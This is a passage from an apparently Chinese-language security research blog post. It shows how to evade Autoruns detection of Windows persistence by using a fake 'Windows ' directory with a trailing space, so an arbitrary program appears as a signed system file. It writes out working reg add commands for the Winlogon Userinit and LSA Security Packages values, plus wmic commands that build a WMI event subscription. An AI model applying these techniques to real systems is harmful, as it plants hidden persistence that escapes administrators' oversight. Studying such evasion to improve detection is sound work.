 `"`在cmd下转义后用`\"`表示

Autoruns检测注册表项，将其识别为notepad.exe，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/2-1.png)

但在系统开机时启动的是正常notepad.exe，而不是putty.exe，失败

### 2、注册启动项`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`下的`Userinit`

查询原注册表项：

```
reg query "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

默认键值内容为：`C:\Windows\system32\userinit.exe,`


系统启动时启动文件`"C:\Windows \System32\notepad.exe"`，添加注册表的命令如下：

```
reg add "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe,\"c:\windows \system32\notepad.exe\"," /f
```

**注：**

`"`在cmd下转义后用`\"`表示

系统开机时启动putty.exe，Autoruns检测注册表项，将其识别为notepad.exe，成功绕过

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/2-2.png)

**注：**

Autoruns默认不显示带有微软签名的文件，所以不会显示上图中的notepad.exe，上图为了演示专门设置为显示所有启动项

### 3、LSA Providers

注册启动项`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`下的`Security Packages`

添加键值`"c:\windows \system32\atl.dll"`

Autoruns检测注册表项，将其识别为atl.dll，成功绕过

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-15/2-4.png)

### 4、WMI

每隔60秒启动文件`"C:\Windows \System32\notepad.exe"`，添加wmi的命令如下：

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows \System32\notepad.exe",CommandLineTemplate="C:\Windows \System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```
